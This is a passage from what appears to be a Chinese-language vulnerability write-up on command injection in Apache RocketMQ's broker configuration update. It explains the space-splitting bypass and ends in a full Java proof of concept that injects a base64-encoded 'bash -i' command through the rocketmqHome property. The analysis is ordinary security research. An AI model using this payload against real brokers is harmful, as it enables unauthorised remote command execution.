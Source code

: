 这里只需要通过DefaultMQAdminExt设置filterServerNums的值即可，大致为：  
```
Properties properties = new Properties();properties.setProperty("filterServerNums","1");...DefaultMQAdminExt defaultMQAdminExt = new DefaultMQAdminExt();...defaultMQAdminExt.updateBrokerConfig("192.168.87.128:10911", props);...
```  
  
2、callshell方法传入命令时，shellString会被splitShellString方法使用空格进行拆分为一个cmdArray数组。  
```
public static void callShell(final String shellString, final InternalLogger log) {    Process process = null;    try {        String[] cmdArray = splitShellString(shellString);        process = Runtime.getRuntime().exec(cmdArray);        process.waitFor();        log.info("CallShell: <{}> OK", shellString);    } catch (Throwable e) {        log.error("CallShell: readLine IOException, {}", shellString, e);    } finally {        if (null != process)            process.destroy();    }}
```  
  
意味着传入的命令如果带了空格，都会被拆分为数组，而数组在exec中会将每个命令的结尾标记为下一个命令的开头[3]。  
  
sh {可控}/bin/startfsrv.sh ...  
，如果传入-c curl 127.0.0.1;  
  
那么comArray为['sh' '-c' 'curl' '127.0.0.1' ';' '/bin/startfsrv.sh' '...']  
  
这里的每个命令的结尾作为下一个命令的开头，它将每个被传入的命令都看作为一个整体，想不出一个更合适的例子，这里可以使用shell里的单引号括起来进行辅助理解：  
  
'sh' '-c' 'curl' '127.0.0.1' ';' '/bin/startfsrv.sh' '...'  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/3k9IT3oQhT0EJSbibGUh8VN6G4K6Peok7iccGx7hOFQu2Ae0PFgqt5HGcS8QzqrZbibCC1pvIlx03ibKyVlicap7y8Q/640?wx_fmt=png "")  
  
很明显，这里的curl因为使用了空格，导致curl 127.0.0.1被拆分为了两个部分，正确的写法应该是：  
  
'sh' '-c' 'curl 127.0.0.1' ';' '/bin/startfsrv.sh' '...'  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/3k9IT3oQhT0EJSbibGUh8VN6G4K6Peok7icib9ibOOs8oZtqTUaalDvWr845onxUicvuang8U4c0T8pibUicJnasiaicyAQ/640?wx_fmt=png "")  
  
但是使用空格又会被split，所以现在的问题点就在于如何避免使用空格进行完整的传参，网上公开的解法[4]：  
  
-c $@|sh . echo curl 127.0.0.1;  
  
$@  
作为一个特殊变量，它表示传递给脚本或命令的所有参数，直接将echo后面的值作为一个整体传递给$@，解决了拆分命令的问题。  
  
感谢  
longofo@知道创宇404实验室带我探讨出第二个绕过方法：  
  
顺便一提，这个绕过的核心点在于这里如果不使用bash，则无法成功使用${IFS}以及{}进行绕过空格限制，这里就不再进行细节讲解，感兴趣的师傅可以动手试试：  
```
-c bash${IFS}-c${IFS}\"{echo,dG91Y2ggL3RtcC9kZGRkZGRkYWE=}|{base64,-d}|{bash,-i}\";
```  
#### 5.1 payload构造  
  
根据上面的知识，最终构造的payload为：  
```
Properties properties = new Properties();properties.setProperty("filterServerNums","1");properties.setProperty("rocketmqHome","-c bash${IFS}-c${IFS}\"{echo,dG91Y2ggL3RtcC9kZGRkZGRkYWE=}|{base64,-d}|{bash,-i}\";");DefaultMQAdminExt defaultMQAdminExt = new DefaultMQAdminExt();defaultMQAdminExt.setNamesrvAddr("localhost:9876");defaultMQAdminExt.start();defaultMQAdminExt.updateBrokerConfig("192.168.87.128:10911", properties);defaultMQAdminExt.shutdown();
```  
#### 5.2 漏洞验证  
  